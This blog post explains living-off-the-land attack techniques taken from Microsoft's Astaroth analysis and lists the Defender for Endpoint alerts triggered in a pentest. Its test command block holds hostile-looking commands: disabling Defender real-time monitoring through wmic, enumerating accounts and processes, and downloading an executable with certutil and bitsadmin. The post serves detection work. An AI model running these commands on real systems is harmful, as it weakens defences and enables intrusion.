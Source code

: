 # LotL techniques with MDE detection - Part 1 
Hello everyone,

For a long time, I have seen Living off the Land (LotL) techniques discussed in Microsoft Security blogs, and recently I have been learning various attack techniques, especially those related to LotL. 
That's why I believe this is a great time to share my learning and detection insights in MDE through this blog.

### What is living off the land ?

[Microsoft Security blog](https://www.microsoft.com/en-us/security/blog/2018/09/27/out-of-sight-but-not-invisible-defeating-fileless-malware-with-behavior-monitoring-amsi-and-next-gen-av/) explains that “living off the land”, as malware only uses resources already available in the operating system. 

I will show you how LotL techniques were used by attackers, based on past Microsoft Security blogs.


### [Astaroth “living-off-the-land”](https://www.microsoft.com/en-us/security/blog/2019/07/08/dismantling-a-fileless-campaign-microsoft-defender-atp-next-gen-protection-exposes-astaroth-attack/)
This is a somewhat older blog, but I love it because it includes some Windows LotL-related attacks in the attack flow.

1. LNK
2. WMI
3. Bitsadmin
4. Certutil

**LNK** : One common pattern is that an attacker creates a LNK file with a target path that executes a PowerShell command to download and run a malicious script from the internet.

**WMI** : Query the operating system (OS) for specific properties and then formats the output using a custom format file located at a URL.

**Bitsadmin / Certutil** : The commands bitsadmin and certutil can be exploited in cyberattacks, particularly in the context of malware delivery and command-and-control (C2) activities, such as downloading and uploading files.

![image](https://github.com/user-attachments/assets/f3ba69a1-f9bf-4300-9b03-551917f9875f)
> Astaroth “living-off-the-land” attack chain showing multiple legitimate tools abused
---

## Microsoft Defender for Endpoint detection alerts

**Test commands**
```cmd
wmic process call create "powershell.exe -NoProfile -ExecutionPolicy Bypass -Command \"Set-MpPreference -DisableRealtimeMonitoring 1\""
wmic process get caption,executablepath,commandline /format:csv  > %Temp%\commands.csv
wmic useraccount get /ALL /format:csv > %Temp%\UserAccounts.csv
wmic qfe get description,installedOn /format:csv > %Temp%\installedapp.csv
wmic process call create "cmd.exe /c certutil -urlcache -f \"https://aka.ms/ioavtest\" \"%TEMP%\\validatecloud.exe\""
wmic process call create "cmd.exe /c bitsadmin /transfer mydownloadjob /download /priority high \"https://aka.ms/ioavtest\" \"%TEMP%\\validatecloud.exe\""
```

***The pentest device was protected by Defender Antivirus and Microsoft Defender for Endpoint, with Tamper Protection turned on.***

These alerts have been detected by MDE.
- Suspicious Process Discovery
- Suspicious User Account Discovery
- Anomalous account lookups
- Suspicious WMI process creation
- Suspicious file creation by BITSAdmin tool
- Use of living-off-the-land binary to run malicious code
- Suspicious behavior by cmd.exe was observed


![image](https://github.com/user-attachments/assets/0cb41402-9fe2-4c2c-970e-3511bbb0aa1e)

![image](https://github.com/user-attachments/assets/45ad9fcc-1fcb-427b-8876-45b6b74df524)

#### Disclaimer
The views and opinions expressed herein are those of the author and do not necessarily reflect the views of company.
